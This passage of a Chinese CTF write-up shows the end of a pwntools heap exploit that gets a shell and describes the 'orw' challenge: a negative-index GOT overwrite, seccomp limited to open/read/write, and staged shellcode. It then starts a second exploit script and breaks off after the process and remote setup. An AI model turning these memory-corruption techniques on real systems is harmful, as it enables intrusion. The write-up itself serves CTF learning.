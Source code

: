 new()

edit(4, 0, 0x100)

append(4, 0x40, “/bin/sh\n”)

​

input()

​

write_addr = libc_base + 2026280

sys = libc_base + 349200

append(2, –2147483136, b”a” + pwn.p64(0) + pwn.p64(0x21) + pwn.p64(write_addr)+ b’\n’)

append(3, 0x30, pwn.p64(sys) + b’\n’)

​

edit(4, 0, 0)

​

p.interactive()

**[****强网先锋]orw**

题目的漏洞点在在于 分配的 index 可以为负数， 从而可以将堆地址写入 got 表

[![](https://p5.ssl.qhimg.com/t0181fe41ff728fd230.jpg)](https://p5.ssl.qhimg.com/t0181fe41ff728fd230.jpg)<br>

另外题目开启了 seccomp， 限制了只能使用open，read，write

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01701cf25348850905.jpg)<br>

程序未开启NX保护，使得堆栈可执行

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b94fae6bff52ca90.jpg)<br>

由于shellcode只能写8字节，所以通过覆盖atoi的got表，使得shellcode变长；通过16字节shellcode写入更大的shellcode，完成orw

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012cb9cec0a47601c2.jpg)<br>

from pwn import *

​

context.arch = “amd64”

​

p = process(‘./pwn’, env=`{`“LD_PRELOAD”:“./libseccomp.so.0”`}`)

# p = remote(“39.105.131.68”,12354)
